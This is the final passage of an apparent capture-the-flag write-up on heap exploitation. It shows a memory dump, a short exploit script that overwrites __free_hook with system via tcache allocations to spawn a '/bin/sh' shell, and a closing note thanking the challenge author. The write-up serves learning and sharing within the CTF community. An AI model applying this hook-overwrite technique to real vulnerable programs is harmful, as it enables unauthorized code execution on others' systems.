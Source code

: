 ```
0x56257ccda390:	0x0000000000000000	0x0000000000000000
0x56257ccda3a0:	0x0000000000000000	0x00000000000000f1
```

All that is left to be done is to malloc 2 chunks of size 0x21 without freeing them in between. For that we again use reset(0). And then....

```
create(0,0x10,b'RRRR') <--- malloc E from tcache
reset(0) <--- reset the pointer so E does not get freed
create(0,0x10,p64(system)) <--- malloc __free_hook. Overwrite it with system
#ceate chnk z 0x90 pa /bin/sh\0 v hex

create(0,0x90,b"/bin/sh")<--- we will free this chunk to get a shell
#create(0,0xe,"heheshel")

p.sendline('1')<--- just call create again to trigger free
p.sendline('0')<--- send index 0 

p.interactive()
```

SHELL!

# CONCLUSION

This my first in depth writeup and I hope you found it useful. All I know about pwn came from reading writeups like this one and so it seems fair I start giving back to the community.

Challenges like this one can seem really hard to wrap head around for beginners. But with time and experience it gets easier(Not easy, just easier haha). Thanks to Rythm for creating this awesome challenge.